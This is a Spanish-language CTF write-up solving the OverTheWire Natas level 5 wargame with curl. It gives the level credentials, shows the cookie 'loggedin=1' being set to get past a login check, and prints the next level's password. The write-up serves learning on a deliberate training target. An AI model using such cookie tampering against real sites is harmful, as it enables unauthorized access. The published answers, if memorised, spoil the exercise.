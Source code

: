 ```yaml
---
title: OverTheWire - Natas 4 -> 5 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 4 -> 5 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas5
Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
URL:      http://natas5.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas4-5-1.png)

Nos indica que solo los usuarios que tengan sesión iniciada pueden ver la contraseña.

![](/images/images-otw-natas/natas4-5-2.png)

Si agregamos el parámetro `-v` a curl, podremos ver más información sobre las peticiones.

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Vemos que existe una cookie llamada **loggedin** y tiene de valor el número 0.

![](/images/images-otw-natas/natas4-5-3.png)

Para agregar una cookie con el comando curl usamos el parámetro `--cookie`. En este caso agregaremos `--cookie 'loggedin=1'`.

```bash
curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie 'loggedin=1'
```

![](/images/images-otw-natas/natas4-5-4.png)



# Contraseña
---

`aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

---

## [Anterior](/level-3-4)
## [Siguiente](/level-5-6)